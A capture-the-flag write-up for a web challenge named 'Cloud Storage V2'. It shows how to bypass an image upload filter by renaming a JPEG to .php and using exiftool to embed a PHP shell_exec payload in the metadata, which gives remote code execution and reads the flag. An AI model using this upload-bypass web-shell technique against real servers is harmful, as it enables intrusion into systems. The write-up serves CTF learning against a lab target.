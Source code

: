 ```yaml
---
title: "Cloud Storage V2 [WEB]"
categories: CodeCombat2023
permalink: /ctfs/codecombat2023/cloudstoragev2
---
```


Local File Inclusion leads to Remote Code Execution via PHP Injection.

## 📁 Challenge Description
>I've upgraded the upload system to a new one. You may no longer exploit it now!
>
>`http://cloudstorage.sibersiaga2023.myctf.io/`
>
>flag is in `/home/flag.txt`
>
>Flag format: `sibersiaga{md5hash}`

55.56 points, 9 solves

## 🚩 Solution
The challenge presents a slightly improved security for the file upload functionality on the website. The way it validates if an image file is safe to be uploaded is incomplete and can be bypassed easily. It does check whether it is an image by looking at the file signatures but it doesn't check using the file extension.

Hence, we can start by using a cute penguin image `penguin.jpeg`.

![penguin](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/88cb5623-b1dd-47cf-a128-c27d06ba3b13)

Using `file penguin.jpeg` to check the file type.

```
┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ file penguin.jpeg  
penguin.jpeg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 183x276, components 3
```

Change the file extension from `penguin.jpeg` to `penguin.php`.

```
┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ cp penguin.jpeg penguin.php
```

Check the file type again. We can see that the file type remains unchanged despite the file extension has been modified with `cp` command.

```
┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ file penguin.php
penguin.php: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 183x276, components 3
```

Upload it to the website and check for vulnerabilities.

![cloudstorage1](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/dec3d978-14a7-4df9-bd5d-d215f88474d0)

We concluded that this challenge website is vulnerable to PHP injection attacks. We can inject a PHP shellcode stating the location of the flag (given by the challenge) to execute remotely and retrieve information from the website.

Now, inject a super duper simple PHP shell execution payload into the `penguin.php` using `exiftool`.

```
┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ exiftool -DocumentName='<?php echo shell_exec("cat /home/flag.txt"); ?>' > penguin.php
    1 image files updated

┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ exiftool penguin.php                                    
ExifTool Version Number         : 12.57
File Name                       : penguin.php
Directory                       : .
File Size                       : 3.5 kB
File Modification Date/Time     : 2023:08:15 09:57:23-04:00
File Access Date/Time           : 2023:08:31 10:59:34-04:00
File Inode Change Date/Time     : 2023:08:15 09:57:48-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
Document Name                   : <?php echo shell_exec('cat /home/flag.txt');?>
X Resolution                    : 1
Y Resolution                    : 1
Resolution Unit                 : None
Y Cb Cr Positioning             : Centered
Image Width                     : 183
Image Height                    : 276
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 183x276
Megapixels                      : 0.051
```

{% capture notice-2 %}
💡 **NOTE**: We tried to inject using `-Note=` and `-Comment=` metadata parameters but it did not give any results. However, we ended up using `-DocumentName=` for the attack, and works. In our opinion, we think that any parameters will give the same results but the procedure of modifying the image file is incorrect.
{% endcapture %}

<div class="notice--info">{{ notice-2 | markdownify }}</div>

We can check the file type to see if our document name has added.

```
┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ file penguin.php 
penguin.php: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=5, name=<?php echo shell_exec('cat /home/flag.txt');?>, xresolution=122, yresolution=130, resolutionunit=1], baseline, precision 8, 183x276, components 3
```

Upload the malicious file and we got a hit! The flag is then revealed.

![GGcloudstorage](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/ab0fe0d8-36ce-47c6-8882-3f0d51137175)

***FLAG***: `sibersiaga{9c44f131b9d72f89d9a1c8520c42468d}`
